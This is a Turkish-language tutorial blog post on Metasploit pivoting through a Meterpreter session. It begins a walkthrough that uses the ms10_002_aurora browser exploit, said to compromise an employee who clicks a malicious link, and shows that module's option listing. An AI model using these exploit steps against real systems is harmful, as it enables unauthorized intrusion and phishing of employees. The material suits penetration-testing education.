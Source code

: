 ```yaml
---
draft: false

title:  'MSF Pivoting'
date: '2017-06-05T13:33:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Bir sistemde meterpreter shell oturumu açtığınızı varsayalım. Oturum açtığınız sistem, ağda bulunan ancak tam yetkili bir bilgisayar olmayabilir. Bu ilk oturum açtığınız sistemi bir sıçrama tahtası olarak kullanıp aynı ağdaki diğer bilgisayarlara erişmeye\_pivoting\_adı verilmektedir. Başka bir terminolojide\_kıyı başı\_veya\_giriş noktası\_olarak isimlendirildiğine de rast gelebilirsiniz." 
 
url:  /tr/msf-pivoting/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Pivoting Nedir?



Bir sistemde meterpreter shell oturumu açtığınızı varsayalım. Oturum açtığınız sistem, ağda bulunan ancak tam yetkili bir bilgisayar olmayabilir. Bu ilk oturum açtığınız sistemi bir sıçrama tahtası olarak kullanıp aynı ağdaki diğer bilgisayarlara erişmeye **pivoting** adı verilmektedir. Başka bir terminolojide **kıyı başı** veya **giriş noktası** olarak isimlendirildiğine de rast gelebilirsiniz.



Normalde doğrudan erişimi bulunmayan sunucu veya ağ sistemlerine, pivoting kullanarak erişme şansınız bulunmaktadır. Aşağıda inceleyeceğimiz senaryoda, meterpreter shell açılan bir bilgisayarın ağ bağlantılarını kullanarak, başka bir bilgisayara ulaşmayı deneyeceğiz. Bunu yaparken, meterpreter’in sunduğu rotalama imkanından yararlanacağız.



## 1.Bilgisayara Shell Açalım



Burada kullanılan `exploit/windows/browser/ms10_002_aurora` modülü sayesinde, hazırlanan zararlı bir linke tıklayan şirket çalışanının bilgisayarında oturum açılmaktadır.


```bash
msf > use exploit/windows/browser/ms10_002_aurora 
msf exploit**(**ms10_002_aurora**)** > show options

Module options:

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   SRVHOST     0.0.0.0          yes       The local host to listen on.
   SRVPORT     8080             yes       The local port to listen on.
   SSL         false            no        Negotiate SSL **for **incoming connections
   SSLVersion  SSL3             no        Specify the version of SSL that should be used **(**accepted: SSL2, SSL3, TLS1**)**
   URIPATH                      no        The URI to use **for **this exploit **(**default is random**)**


```